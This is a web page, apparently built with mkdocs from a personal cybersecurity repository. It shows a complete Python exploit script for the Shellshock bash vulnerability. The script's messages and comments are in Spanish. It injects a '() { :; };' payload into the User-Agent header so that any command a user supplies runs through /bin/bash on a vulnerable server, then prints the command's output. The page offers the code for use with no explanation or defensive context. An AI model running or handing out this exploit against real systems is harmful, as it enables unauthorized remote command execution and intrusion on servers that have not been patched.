

repository: scarlgyx/scarlgyx-cybersecurity · page: scripts/shellshock/index.html · generator: mkdocs

# Shellshock

```python
import requests
import sys
from colorama import Fore, Style, init

# Inicializar colorama
init(autoreset=True)

def shellshock_attack(url, cmd):
    headers = {
        'User-Agent': f'() {{ :; }}; echo; /bin/bash -c "{cmd}"'
    }
    try:
        response = requests.get(url, headers=headers, timeout=10)
        if response.status_code == 200:
            print("\n" + Fore.GREEN + "[+] Comando ejecutado exitosamente\n")
            print("Output:\n")
            print(response.text)
        else:
            print(Fore.RED + f"[-] La solicitud falló con el código de estado: {response.status_code}")
    except requests.exceptions.RequestException as e:
        print("\n" + Fore.RED + f"[-] Error en la conexión: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Uso: python3 shellshock.py <URL> <comando>")
        sys.exit(1)

    url = sys.argv[1]
    command = sys.argv[2]
    shellshock_attack(url, command)
```
